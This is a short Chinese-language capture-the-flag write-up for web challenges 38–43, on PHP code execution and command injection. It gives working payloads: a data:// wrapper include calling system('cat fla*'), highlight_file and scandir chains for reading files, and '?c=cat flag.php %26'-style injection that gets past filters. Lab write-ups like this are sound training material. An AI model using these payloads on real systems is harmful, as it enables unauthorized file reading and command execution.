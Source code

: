 在上题的基础上过滤了php和file，我们依旧使用上一题的payload就能得到flag

![image-20240424194006862](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404241940888.png)

------

### web-39

查看源码，发现$c后面拼接了.php，拼接的php可以不用管,include只会处理内部的内容

```
payload：?c=data://text/plain,<?php%20system("cat%20fla*");?>
```

------

### web-40（暂时）



payload：echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));

payload：show_source(next(array_reverse(scandir(pos(localeconv()))))); 

------

### web-41（暂时）

用脚本写，暂时不会

https://blog.csdn.net/miuzzx/article/details/108569080

------

### web-42

查看源码，发现eval里有个/dev/null 2>&1

/dev/null 2>&1：让所有的输出流（包括错误的和正确的）都定向到空设备丢弃

所以我们不能让后面执行，需要把后面截断，我们使用**%0a(换行),%26（&）,||**

```
payload：?c=cat flag.php %26
```

![image-20240424205927150](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404242059179.png)

------

### web-43

相对上一题，过滤了cat，我们使用tac来代替cat，

```
payload：?c=tac flag.php %26
```

------
